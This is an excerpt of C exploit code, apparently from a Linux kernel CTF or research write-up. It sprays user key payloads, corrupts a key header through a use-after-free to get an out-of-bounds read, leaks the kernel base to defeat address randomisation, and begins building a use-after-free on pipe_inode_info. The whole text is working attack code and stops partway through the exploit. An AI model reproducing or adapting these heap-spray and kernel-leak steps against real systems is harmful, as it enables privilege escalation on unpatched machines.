 ```c
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    del(0);

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        snprintf(desciption, 0x100, "%s%d", "arttnba", i);
        key_id[i] = key_alloc(desciption, buf, PIPE_INODE_INFO_SZ - 0x18);
        if (key_id[i] < 0) {
            printf("[x] failed to alloc %d key!\n", i);
            errExit("FAILED to add_key()!");
        }
    }

    del(0);

    /* corrupt user_key_payload's header */
    puts("[*] corrupting user_key_payload...");

    buf[0] = 0;
    buf[1] = 0;
    buf[2] = 0x2000;

    for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++) {
        alloc(0, PIPE_INODE_INFO_SZ, buf);
    }

    /* check for oob-read and leak kernel base */
    puts("[*] try to make an OOB-read...");

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        if (key_read(key_id[i], buf, 0x4000) > PIPE_INODE_INFO_SZ) {
            printf("[+] found victim key at idx: %d\n", i);
            victim_key_idx = i;
        } else {
            key_revoke(key_id[i]);
        }
    }

    if (victim_key_idx == -1) {
        errExit("FAILED at corrupt user_key_payload!");
    }

    kernel_offset = -1;
    for (int i = 0; i < 0x2000 / 8; i++) {
        if (buf[i] > kernel_base && (buf[i] & 0xfff) == 0x210) {
            kernel_offset = buf[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        errExit("FAILED to leak kernel addr!");
    }

    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct UAF on pipe_inode_buffer to leak pipe_buffer's addr */
    puts("[*] construct UAF on pipe_inode_info...");

    /* 0->1->..., the 1 will be the payload object */
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    alloc(1, PIPE_INODE_INFO_SZ, buf);
```
